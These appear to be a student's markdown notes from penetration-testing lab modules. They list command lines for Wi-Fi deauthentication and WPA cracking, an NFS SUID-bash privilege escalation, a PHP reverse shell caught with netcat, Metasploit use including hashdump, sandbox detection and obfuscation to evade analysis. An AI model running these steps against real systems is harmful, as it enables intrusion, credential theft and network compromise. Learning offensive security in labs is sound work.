 <h1>Vulnerabilities</h1>

XXE (XML External Entity) - Takes advantage of how XML handles external entities
* GOAL: Point external entity to malicious source or code
* Intercept requests with Burp Suite
* In browser -> browse website
* Proxy -> HTTP History
* Find request to exploit -> send to repeater -> edit request -> Send

Check if machine is a sandbox environment:
* Check if it has `C:\Program Files\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\ProgramFilesDir`
* If missing, machine is usually on sandbox or virtual environment
* Can make script to automate

Obfuscation - encode code that executes a vulnerability using base64 or other encoding
* Be careful of FLOSS

Reverse Shell - Target initiates connection to attacking machine
![create reverse shell payload using msfvenom](https://github.com/user-attachments/assets/aaabf49a-661d-49b7-bf64-e6b505b08884)

Malicious Document that uses macro:
![Malicious Macro Document](https://github.com/user-attachments/assets/99abee96-92ca-4d68-b979-2d85d6b9ed14)

Listen for incoming connections to establish exploit:
![Listen for incoming connections to establish exploit](https://github.com/user-attachments/assets/8d877b1c-bb98-4d60-9e12-1e82c6eac25e)

Wifi Attacks:
* sudo iw dev - shows wireless devices and their configuration
* sudo iw dev (device/interface) scan - scan nearby Wifi networks using the device
* sudo iw dev (device/interface) set type monitor - change device to monitor mode
  * turn device/interface off before doing this
  * turn device/interface on after
* sudo ip link set dev (device/interface) up - turn device on
* sudo ip link set dev (device/interface) down - turn device off
* sudo iw dev (device/interface) info - shows status of device
* sudo airodump-ng (device/interface) - shows list of nearby wifi networks and important details like encryption type
  * CAN QUITE WHEN FIND DESIRED NETWORK
* sudo airodump-ng -c (# channels to listen to) --bssid (bssid of network) -w output-file (device/interface) - targets specific network channel to capture traffic and save it files that start with output-file\
  * KEEP RUNNING
* Attack device connected to access point (BSSID under STATION section)
* open second terminal to launch deauthentication attack
  * using aireplay-ng to send deauthentication packets to disconnect wifi connection
  * capture reconnection 4-way handshake using airodump-ng that is being run
  * sudo aireplay-ng -0 1 -a (device/interface) -c (BSSID of device connected to access point)
* sudo aircrack-ng -a 2 -b (device/interface) -w /home/glitch/rockyou.txt output*cap - crack WPA/WPA2 passphrase using dictionary attack (using rockyou.txt word list)
* stop airodump-ng on first terminal
* wpa_passphrase MalwareM_AP (Pass Key) > config
* sudo wpa_supplicant -B -c config -i wlan2

Local DNS Override:
* Add website to/etc/hosts
* Doesn't alert external DNS servers
* Also may show that website uses self-signed certificate
* `echo "(Website IP) (website)" >> /etc/hosts`

Man in the Middle Attack on website using self-signed certificate:
* launch burp suite
* change settings
* don't need burp suite browser
* add ip of website and port to listen to on proxy listeners
* set own machine as gateway (other things not taught in module)
* run custom script that simulates user requests to website (have to use `chmod +x (script file)` on file before executing)
* burp suite will capture new user requests and shown as long as script and burp suite is running

Cracking hashed passwords:
* use tool `python hash-id.py` to identify possible hashing techniques used

Where passwords held:
* usually held C:\Windows\System32\config\sam

Some Passwords for different websites may be default:
* just search up website's default passwords

Broken Authentication:
* sometimes there's already user registered ex: (arthur)
* can register user with space beforehand ex: ( arthur)
* maybe gain access to arthur account

NFS
* allows system to share directories and files with others over a network
* access files remotely by mounting file system on a server that can be accessed
* use /usr/sbin/showmount -e (IP) - display information about NFS mounts on a system
* mkdir /tmp/mount - creates temporary directory to mount share to
* mount - make files and directories on file system accessible
* exploitation ex:
  * sudo mount -t nfs (IP):(mount) /tmp/mount/ -nolock
  * cp ~/Downloads/bash - copy bash shell
  * sudo chown root bash - become root user to run executable
  * sudo chmod +s bash - gives permission for file to be executed with the privileges of file's owner READ UP ON FILE PERMISSION FORMAT AND MEANINGS!!!!!!!!!!!!!!!!!!!!!!!!!!!!!
  * ssh ./bash -p - runs bash executible with the permissions

XSS
* Input code into text box
* Can use JavaScript, HTML, etc

Hydra
* open source tool used for network login cracking through brute-force attacks
* can be used with rockyou.txt

Robots.txt
* used to give instructions to web robots about locations within the web site that robots are allowed
* can be used to identify locations that are mentioned in file

GoBuster:
* tool used to brute-force websites
* ex: `gobuster dir -u http://(ip) -w (wordlist path)`
 * can add port ex: `http://(ip):(port)`
* wordlist path - /usr/share/wordlists

If you are able to edit .php file on website:
* substitute code with pentestmonkey reverse shell code. In reverse shell code edit ip and port
* start netcat
* visit page to run code and nc will show you shell

Metasploit:
* msfconsole - starts metasploit framework
* search (vulnerability code) - searches for exploitation code and puts in a list
* use (# in list or exploit path) - use exploitation
  * puts you in the context of the exploit (specific settings for that exploit)
  * show options - shows context of exploit
  * show  (module type (auxiliary, payload, exploit, etc)) - shows chow context of module
  * info - shows more information
  * back - exit context
* set (parameter name) (value) - set parameters
  * if not set as a global variable parameter settings will change if you change module being used
* setg (parameter name) (value) - set global parameters
* unset - clear parameter value (can use unset all)
* unsetg - unset global parameters (can use unsetg all)
* exploit - launch module
* ctrl + z - run session in background
* show sessions - shows sessions
* sessions -i (id) - choose session
* ps - lists processes
* migrate (pid) - migrate to process
* hashdump - dump passwords on machine if you have correct privileges
